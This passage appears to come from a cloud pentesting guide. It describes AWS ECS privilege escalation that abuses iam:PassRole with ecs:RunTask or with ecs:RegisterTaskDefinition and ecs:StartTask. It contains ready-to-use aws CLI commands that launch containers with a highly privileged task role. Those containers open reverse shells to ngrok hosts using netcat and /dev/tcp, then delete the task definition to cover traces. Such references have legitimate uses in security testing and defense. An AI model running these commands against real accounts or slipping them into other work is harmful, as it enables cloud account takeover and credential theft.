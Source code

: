 In the code snippet above an attacker overrides only `taskRoleArn` value. However, the attacker must have `iam:PassRole` permission over the `taskRoleArn` specified in the command and the `executionRoleArn` specified in the task definition for the attack to happen.

If the IAM role that the attacker can pass has enough privileges to pull to ECR image and start the ECS task (`ecr:BatchCheckLayerAvailability`, `ecr:GetDownloadUrlForLayer`,`ecr:BatchGetImage`,`ecr:GetAuthorizationToken`) then the attacker can specify the same IAM role for both `executionRoleArn` and `taskRoleArn` in the `ecs run-task` command.

```sh
aws ecs run-task --cluster <cluster-name> --launch-type FARGATE --network-configuration "awsvpcConfiguration={subnets=[<subnet-id>],securityGroups=[<security-group-id>],assignPublicIp=ENABLED}" --task-definition <task-definition:revision> --overrides '
{
  "taskRoleArn": "arn:aws:iam::<redacted>:role/HighPrivilegedECSTaskRole",
  "executionRoleArn":"arn:aws:iam::<redacted>:role/HighPrivilegedECSTaskRole",
  "containerOverrides": [
    {
      "name": "<container-name>",
      "command": ["nc", "4.tcp.eu.ngrok.io", "18798", "-e", "/bin/bash"]
        }
  ]
}'
```

**Potential Impact:** Direct privesc to any ECS task role.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`

Just like in the previous example an attacker abusing the **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`** permissions in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it**.\
However, in this case, a container instance to run the malicious task definition need to be.

```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

aws ecs start-task --task-definition iam_exfiltration \
    --container-instances <instance_id>

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```

**Potential Impact:** Direct privesc to any ECS role.
